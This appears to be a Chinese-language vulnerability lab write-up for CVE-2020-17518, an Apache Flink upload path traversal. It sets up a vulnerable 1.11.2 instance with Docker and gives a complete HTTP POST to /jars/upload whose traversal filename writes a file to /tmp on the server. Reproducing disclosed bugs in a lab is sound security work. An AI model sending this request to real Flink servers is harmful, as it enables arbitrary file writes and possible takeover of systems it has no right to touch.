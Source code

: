 # Apache Flink 上传路径穿越漏洞（CVE-2020-17518）

Apache Flink 是一个开源的分布式流处理和批处理大数据计算引擎。

Apache Flink 1.5.1 版本引入了一个 REST handler，攻击者可以通过恶意修改 HTTP HEADER，实现将上传的文件写入到本地文件系统的任意位置。该问题在 Apache Flink 1.11.3 版本中得到修复。

参考链接：

- <https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4>
- <https://nvd.nist.gov/vuln/detail/CVE-2020-17518>

## 环境搭建

执行如下命令启动一个 Apache Flink jobmanager 1.11.2：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8081` 即可查看到 Apache Flink 的管理页面。

## 漏洞复现

发送如下数据包，即可上传一个文件到目标服务器的 `/tmp/success` 位置：

```
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```

上传成功后，即可在目标服务器上查看到 `/tmp/success` 文件：

![](1.png)
